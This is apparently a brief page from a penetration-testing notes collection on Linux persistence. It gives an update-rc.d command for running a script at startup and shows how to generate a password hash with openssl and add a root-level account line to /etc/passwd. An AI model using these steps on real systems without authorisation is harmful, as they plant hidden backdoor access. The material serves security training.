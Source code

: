 # Persistence

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Cron

## Startup Scripts

Add script to run at startup: `update-rc.d </path/to/the/script> defaults` \(needs 755 permissions\)

## Accounts

### Add Account and/or Password to /etc/passwd

Generate password:

`openssl passwd -1 -salt <username> <password>`

Then add to `/etc/passwd` file.  The format is:`<username>:<generated_password>:<UID>:<GUID>:root:/root:/bin/bash`

